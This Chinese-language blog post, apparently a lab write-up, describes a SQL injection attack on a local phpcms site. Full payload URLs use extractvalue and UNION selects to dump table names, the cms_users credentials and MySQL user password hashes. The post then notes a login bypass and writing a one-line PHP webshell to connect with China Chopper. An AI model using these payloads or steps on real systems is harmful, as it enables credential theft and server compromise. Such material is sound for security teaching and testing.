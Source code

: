 ```yaml
---
title: phpcms框架SQL注入
date: 2018-10-29 15:28:52
tags: [实验]
categories: sql注入
---
```

# phpcms框架SQL注入

## 注入页面

![001](/img/sql/phpcms/001.png)

## 注入过程

随便点击一个页面进行注入

发现返回报错信息

![002](/img/sql/phpcms/002.png)



### 判断注入类型

通过判断为数字型

![003](/img/sql/phpcms/003.png)



### 获取用户和当前数据库名

`http://192.168.0.109:8083/show.php?id=33%20and%20extractvalue(null,concat(0x7e,concat(user(),0x7e,database()),0x7e))%23`

![004](/img/sql/phpcms/004.png)

### 获取表名

`http://192.168.0.109:8083/show.php?id=33%20and%20extractvalue(null,concat(0x7e,(select table_name from information_schema.tables where table_schema='cms' limit 1,1),0x7e))%23`

发现表名太多了,还是直接爆出比较犀利

![005](/img/sql/phpcms/005.png)



`http://192.168.0.109:8083/show.php?id=33 and 1=2 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='cms'),4,5,6,7,8,9,10,11,12,13,14,15%23`

![006](/img/sql/phpcms/006.png)

直接爆出会遇上编码问题，需要concert()函数转码。

`http://192.168.0.109:8083/show.php?id=33 and 1=2 union select 1,2,(select group_concat(convert(table_name using latin1)) from information_schema.tables where table_schema='cms'),4,5,6,7,8,9,10,11,12,13,14,15%23`

![007](/img/sql/phpcms/007.png)

### 获取列名

`http://192.168.0.109:8083/show.php?id=33 and 1=2 union select 1,2,(select group_concat(convert(column_name using latin1)) from information_schema.columns where table_schema='cms' and table_name='cms_users'),4,5,6,7,8,9,10,11,12,13,14,15%23`

![009](/img/sql/phpcms/009.png)



### 获取账户

`http://192.168.0.109:8083/show.php?id=33 and 1=2 union select 1,2,(select group_concat(userid,0x7e,username,0x7e,password) from cms.cms_users),4,5,6,7,8,9,10,11,12,13,14,15%23`

![010](/img/sql/phpcms/010.png)

解密后密码为：

![011](/img/sql/phpcms/011.png)

同理可获取mysql数据库的账户密码

`http://192.168.0.109:8083/show.php?id=33 and 1=2 union select 1,2,(select group_concat(User,0x7e,Password) from mysql.user),4,5,6,7,8,9,10,11,12,13,14,15%23`

![012](/img/sql/phpcms/012.png)

![013](/img/sql/phpcms/013.png)

## 登录后台

### 登录界面存在SQL注入和万能密码

登录界面存在万能密码，闭合方式为`'""'`（5.4版本）

![014](/img/sql/phpcms/014.png)

同样存在SQL注入

![017](/img/sql/phpcms/016.png)

![015](/img/sql/phpcms/015.png)



### 上传文件

直接上传会出现文件限制

![017](/img/sql/phpcms/017.png)

尝试多种方法后发现上传这条路不通。



### 数据库上传

![018](/img/sql/phpcms/018.png)



![020](/img/sql/phpcms/020.png)

上传一个phpinfo试试,成功访问

![021](/img/sql/phpcms/021.png)

同理再传个一句话木马,用菜刀连接

![022](/img/sql/phpcms/022.png)